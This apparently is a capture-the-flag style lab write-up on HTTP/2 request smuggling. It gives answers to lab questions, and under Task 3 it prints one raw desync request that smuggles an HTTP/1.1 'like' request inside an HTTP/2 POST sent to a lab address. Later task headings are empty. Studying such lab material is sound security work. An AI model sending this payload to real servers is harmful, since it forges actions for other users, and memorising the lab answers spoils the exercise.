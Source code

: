 <h1>HTTP/2 Request Smuggling</h1>

<br>

<br>

<h2>Task 1. Introduction</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the question below}}$$ </h3>

> 1.1. <em>Deploy the VM before continuing.</em><br><a id='1.1'></a>
>> <strong><code>No answer needed</code></strong><br>
<p><br></p>

<h2>Task 2. HTTP/2 Explained</h2>

<h3 align="left"> $$\textcolor{#f00c17}{\textnormal{Answer the questions below}}$$ </h3>

> 2.1. <em>Which version of the HTTP protocol uses \r\n to separate headers in a request?</em><br><a id='2.1'></a>
>> <strong><code>HTTP/1.1</code></strong><br>
<p><br></p>

> 2.2. <em>Which version of the HTTP protocol uses a binary format and clearly defines boundaries for elements in requests/responses?</em><br><a id='2.2'></a>
>> <strong><code>HTTP/2</code></strong><br>
<p><br></p>

<h2>Task 3. HTTP/2 Desync</h2>


![image](https://github.com/user-attachments/assets/708836a0-2554-4570-bf41-d1e7f9ff8f29)

<br>

![image](https://github.com/user-attachments/assets/9bd0ba4f-33f0-4649-b00e-71e3fdb95fad)


<br>



<br>

<pre><code>POST / HTTP/2
Host: 10.10.15.222:8000
Cookie: sessid=ba89f897ef7f68752abc
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://10.10.15.222:8000/post/12315198742342
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /post/like/12315198742342 HTTP/1.1
X: f</code></pre>

<br>

![image](https://github.com/user-attachments/assets/c85eb21b-6963-4a80-93b9-86b5a612460f)







<h2>Task 4. HTTP/2 Request Tunneling</h2>

<h2>Task 5. HTTP/2 Request Tunneling: Leaking Internal Headers</h2>

<h2>Task 6. HTTP/2 Request Tunneling: Bypassing Frontend Restrictions</h2>

<h2>Task 7. HTTP/2 Request Tunneling: Web Cache Poisoning</h2>

<h2>Task 8. h2c Smuggling</h2>

<h2>Conclusion</h2>
